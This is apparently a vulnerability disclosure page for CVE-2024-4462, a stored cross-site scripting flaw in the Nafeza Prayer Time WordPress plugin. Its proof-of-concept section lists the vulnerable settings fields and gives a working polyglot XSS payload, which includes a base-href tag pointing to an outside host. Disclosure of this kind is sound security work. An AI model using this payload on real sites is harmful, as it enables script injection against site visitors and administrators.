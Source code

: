 ```yaml
---
layout: page
title: CVE-2024-4462
subtitle: Nafeza Prayer Time <= 1.2.9 - Authenticated (Administrator+) Stored Cross-Site Scripting
---
```

## Description
The Nafeza Prayer Time plugin for WordPress is vulnerable to Stored Cross-Site Scripting via admin settings in all versions up to, and including, 1.2.9 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with administrator-level permissions and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page. This only affects multi-site installations and installations where unfiltered_html has been disabled.

## Severity
 4.4 (Medium) - [CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N)

## Affected Version
    <= 1.2.9

## PoC :
```
- Go To Prayers Time
- Put this payload on field nafeza_prayer_time_setting_view_imsak, nafeza_prayer_time_setting_method, nafeza_prayer_time_setting_school, nafeza_prayer_time_setting_latitude, nafeza_prayer_time_setting_longitude, nafeza_prayer_time_setting_city, nafeza_prayer_time_setting_country,nafeza_prayer_time_setting_imsak_difference, nafeza_prayer_time_setting_fajr_difference, nafeza_prayer_time_setting_sunrise_difference, nafeza_prayer_time_setting_duhur_difference, nafeza_prayer_time_setting_asr_difference, nafeza_prayer_time_setting_maghrib_difference, nafeza_prayer_time_setting_isha_difference
JavaScript://%0A/*?'/*\\'/*"/*\\"/*`/*\\`/*&apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(confirm)(1+2+3+4+5+6+7+8+9+10+11+12+13+14+15+16+17+18+19+20+45+500+1000-400-20+2)}//><Base/Href=//ener1-s3c.github.io\\76-->
- Save Change
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/nafeza-prayer-time/nafeza-prayer-time-129-authenticated-administrator-stored-cross-site-scripting
- https://www.cve.org/CVERecord?id=CVE-2024-4462
